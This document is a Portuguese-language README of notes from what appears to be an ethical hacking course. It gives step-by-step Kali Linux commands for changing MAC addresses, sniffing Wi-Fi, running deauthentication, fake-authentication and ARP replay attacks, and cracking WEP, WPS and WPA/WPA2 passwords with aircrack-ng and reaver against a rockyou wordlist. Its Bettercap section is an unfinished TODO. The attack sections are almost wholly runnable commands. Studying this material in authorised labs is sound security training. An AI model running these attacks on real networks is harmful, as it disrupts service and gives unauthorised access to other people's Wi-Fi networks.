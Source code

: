 
# [Ethical Hacking](https://www.udemy.com/course/learn-ethical-hacking-from-scratch)

Mudar o layout do teclado do kali para pt-br
```
setxkbmap -model abnt2 -layout br
```

# Requirements

Aircrack-ng e Reaver
```
sudo apt install net-tools aircrack-ng reaver 
```

Bettercap
```
# Instalando Go
apt install golang

# Instalando dependencias bettercap 
sudo apt install build-essential libpcap-dev libusb-1.0-0-dev libnetfilter-queue-dev 

#Instalando Bettercap
go get github.com/bettercap/bettercap
cd $GOPATH/src/github.com/bettercap/bettercap
make build
sudo make install
```


## Sumário

- [Change MAC](#change-mac)
- [Get MAC](#get-mac)
- [Monitor Mode](#monitor-mode)
- [Sniffing com Airodump-ng](#sniffing-com-airodump-ng)
- Attacks
    - [Deauthentication Attack](#deauthentication-attack)
    - [Fake Authentication Attack](#fake-authentication-attack)
    - [ARP Request Replay Attack](#arp-request-replay-attack)
- Wi-Fi
    - [WEP cracking](#wi-fi-wep-cracking)
    - [WPS cracking](#wi-fi-wps-cracking)
    - [WPA/WPA2 cracking](#wi-fi-wpawpa2-cracking)
- [Bettercap](#arp-spoofing)
#

## Change MAC 

```
ifconfig wlan1 down
ifconfig wlan1 hw ether A0:B1:C2:D3:E4:F5
ifconfig wlan1 up
```

## Get MAC

```
ifconfig -a wlan1 | grep ether
```

#

## Monitor Mode

```
ifconfig wlan1 down
iwconfig wlan1 mode monitor
ifconfig wlan1 up
```
#

## Sniffing com Airodump-ng

Utilizado para sniffar redes wi-fis

|||
|-|-|
|BSSID|mac|
|PWR|força do sinal|
|Beacons|broadcast existencia da rede|
|#Data|total de dados trafegados|
|#/s|total de dados trafegados por segundo|
|CH|canal da rede|
|MB|velocidade máxima suportada|
|ENC|encriptação da rede|
|CIPHER|cifra da rede|
|AUTH|autenticação utilizada|
|ESSID|nome da rede|
|STATION|cliente conectado na rede|


### Todas as Redes
```
airodump-ng wlan1
```

### Rede espefífica
```
airodump-ng --channel [canal] --bssid [mac] wlan1
```

### Salvar dados
```
airodump-ng --channel [canal] --bssid [mac] --write [output file] wlan1
```

#

## Deauthentication Attack

Desautentica um cliente de uma dada rede, sem precisar estar conectado na mesma

1. [Listar Wi-Fis e escolher alvo](#todas-as-redes)

2. [Sniffar o Wi-Fi alvo](#rede-espefífica). Deixe este terminal aberto

3. Executar ataque
    ```
    aireplay-ng --deauth 10000000 -a [bssid wi-fi] -c [mac client] wlan1
    ```
#

## Fake Authentication Attack

Se associa a um Wi-Fi, enviando pacotes de autenticação falsos, para aumentar o número de pacotes tráfegados. Utilizado em ataque como [WEP cracking](#wep-cracking).

1. [Listar Wi-Fis e escolher alvo](#todas-as-redes)

2. [Sniffar o Wi-Fi alvo e salvar dados de leitura](#salvar-dados). Deixe este terminal aberto

3. Abra outro terminal e execute o ataque
    -  **num attempts**: número de vezes que o ataque será executado
    - **mac wifi adapter**: mac da interface em modo monitor
    ```
    aireplay-ng --fakeauth [num attempts] -a [bssid wi-fi] -h [mac wifi adapter] wlan1
    ```

#

## ARP Request Replay Attack 

Gera vários pacotes de ARP Request, utilizados para associar um IP a um dado MAC. Utilizado em ataques como [Wi-Fi WEP cracking](#wi-fi-wep-cracking), para forçar a criação de novos IVs. 

1. Associe-se ao wifi alvo, por meio do [Fake Auth Attack](#fake-authentication-attack)

3. Abra outro terminal e execute o ataque 
    - **mac wifi adapter**: mac da interface em modo monitor
    ```
    aireplay-ng --arpreplay -b [bssid wi-fi] -h [mac wifi adapter] wlan1
    ```

#

## Wi-Fi WEP cracking

Utiliza os IVs trafegados nos pacotes da rede Wi-Fi, para tentar descobrir sua senha. 

1. [Listar Wi-Fis e escolher alvo](#todas-as-redes)

2. [Sniffar o Wi-Fi alvo e salvar dados de leitura](#salvar-dados). Deixe este terminal aberto.

3. **[Situacional]** Se o número de pacotes trafegados for baixo, execute o [ARP Request Replay Attack](#arp-request-replay-attack) antes do comando abaixo

3. Abra outro terminal e execute o ataque. O  sniffing_file.cap é a captura gerada no passo 2 ou 3
    ```
    aircrack-ng sniffing_file.cap
    ```
#

## Wi-Fi WPS cracking

1. Verificar se alvo tem wps habilitado
    ```
    wash --interface wlan1
    ```

2. Executar Fake Auth com multiplas tentativas
    ```
    aireplay-ng --fakeauth 100 -a [bssid wi-fi] -h [mac wifi adapter] wlan1
    ```
3. Abra outro Terminal e execute o ataque
    ```
    reaver -vvv --no-associate --bssid [bssid wi-fi] --channel [channel wi-fi] --interface wlan1
    ```
#

## Wi-Fi WPA/WPA2 cracking

Captura o Handshake de um client com o Wi-Fi e exploita essa informação para tentar quebrar a senha a partir de uma lista de senhas (Método força bruta).

1. [Listar Wi-Fis e escolher alvo](#todas-as-redes)

2. [Sniffar o Wi-Fi alvo e salvar dados de leitura](#salvar-dados). Deixe este terminal aberto.

3. Num novo terminal, desautentique um client deste wi-fi, forçando-o a criar um novo handshake
    ```
    aireplay-ng --deauth 4 -a [bssid wi-fi] -c [mac client] wlan1
    ```
4. Interromper sniffing do passo 2 quando o handshake for capturado

5. Executar ataque 
    > [senhas rockyou.txt](https://www.scrapmaker.com/data/wordlists/dictionaries/rockyou.txt)

    > wordlist.txt é a lista de senhas

    ```
    aircrack-ng sniffing_file.cap -w wordlist.txt
    ```

#

# Bettercap

## ARP Spoofing

TODO





